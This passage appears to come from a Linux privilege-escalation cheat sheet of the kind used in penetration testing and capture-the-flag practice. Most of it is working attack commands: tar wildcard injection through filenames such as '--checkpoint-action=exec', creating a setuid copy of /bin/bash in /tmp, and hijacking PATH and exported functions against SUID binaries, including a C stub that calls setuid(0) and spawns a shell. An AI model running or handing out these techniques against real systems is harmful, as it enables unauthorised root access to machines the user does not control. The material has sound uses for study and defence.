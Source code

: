 We can create a shell script in the directory that will be picked up by the `tar` command.

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
chmod +x runme.sh
```

The following commands need to be run for `tar` to execute the script. The first command adds a checkpoint and when that checkpoint is reached it will execute our script.

```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\runme.sh
```

After waiting a minute we should be able to escalate our privileges.

```
/tmp/bash -p
```

**Cronjobs via pspy**

Sometimes the cronjobs may not be viewable. In this case use the tool called `pspy64` to see commands being run by other users, cron jobs, etc as they execute.

> https://github.com/DominicBreuker/pspy

**Path**

Check if there are any directories in the PATH we can exploit

```
echo $PATH
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

**Path via SUID**

We can potentially exploit the PATH variable to run malicious code. After running `sudo -l` print the binary out with `strings` to see if anything can be exploited.

For example this binary uses the command `service` which we can create our own binary and add it to PATH for privilege escalation. 

```
strings /usr/local/bin/<binary>
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/<binary>
```

Another example if the binary uses a direct path it can exploited like so

```
strings /usr/local/bin/suid-env2
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
```
